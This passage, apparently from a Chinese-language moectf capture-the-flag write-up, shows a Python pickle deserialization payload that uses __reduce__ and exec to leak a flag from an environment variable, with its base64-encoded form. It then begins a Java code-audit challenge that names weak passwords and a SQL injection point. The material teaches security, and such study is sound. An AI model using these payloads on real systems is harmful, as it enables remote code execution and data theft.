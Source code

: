 因此我们用 Python 3.12.4 生成序列化数据：

```Python
import base64
import pickle

class Test:
    def __reduce__(self):
        return (exec, ("import os; store.create_pet(os.getenv('FLAG'), 'flag');",))

if __name__ == "__main__":
    print(base64.b64encode(pickle.dumps(Test())).decode("utf-8"))
```

得到

```Plain
gASVUwAAAAAAAACMCGJ1aWx0aW5zlIwEZXhlY5STlIw3aW1wb3J0IG9zOyBzdG9yZS5jcmVhdGVfcGV0KG9zLmdldGVudignRkxBRycpLCAnZmxhZycpO5SFlFKULg==
```

这个被题目环境侧反序列化后就会执行

```Python
exec("import os; store.create_pet('flag', os.getenv('FLAG'));")
```

因此，将这个序列化数据传入 Import a Pet 后，再回到主页面，就能看到 Flag: 

![img](https://genuine-xdsec.feishu.cn/space/api/box/stream/download/asynccode/?code=ZWJlOTlmNmJiZDNlOWFkYWZkZDIyNTFmNmJiM2E5ZmJfMHJkOU9LMlhSeHZBOTJzZTJ3STRQUmVZTWpNWDRuUzZfVG9rZW46T0VHNWJtTWNxb0k4ekJ4YmllT2MxeWo4bjBjXzE3Mjg5MTA3MjM6MTcyODkxNDMyM19WNA)

示例 Flag（本题为动态 Flag）: 

```Plain
moectf{starrymeow's_flag_has_been_accepted_acacacac}
```

本题有非常多的解法，以上只是其中之一，例如在`/static/`中添加内容为flag的文件、时间盲注等，都是可以的，毕竟已经RCE了所以几乎什么都可以做到。因为容器不出网所以没法反弹shell，否则还可以有更多操作。

## smbms

这题是一道 java 的代码审计。因为我对 java 开发和 java 安全都是刚入门没几天，所以这道题出出来也只是套了个 java 的壳子，本质上还是一道简单的 sql 注入题目，只是增大了代码量。

首先我们打开环境，是一个登陆页面。可能有人会尝试 sql 注入进去，但是试了之后就可以放弃了。整个 java 项目都使用 `PrepareStatement` 预编译语句，所以一般情况下是不能注入的。所以登陆进去的考点就是爆破。拿到源代码查看里面的 sql 语句，也能看到提示 `weak_auth` ，表示这是一个弱密码。其中 admin 的密码是 `1234567` ，其他用户的密码是 `0000000` 。权限没有控制，随便选一个登陆就可以。

登陆进去之后，由于整个项目都是手搓的 jsp + servlet + jdbc, 所以没有现成的框架可以来利用，所以只能阅读代码。之前说过，我们使用的是预编译，所以我们不能哪里都能注入。但是我们还是可以找到一些端倪。sql 注入的核心就是字符串拼接，我们看到 `java/top/sxrhhh/dao/user/UserDaoImpl.java` 文件，看到 `getUserList` 方法，这个方法就是获取用户列表的，就是一个查表的函数。注意到这一行：

```java
if (!StringUtils.isNullOrEmpty(userName)) {
    sql.append(" and u.userName like '%").append(userName).append("%'");
}
```
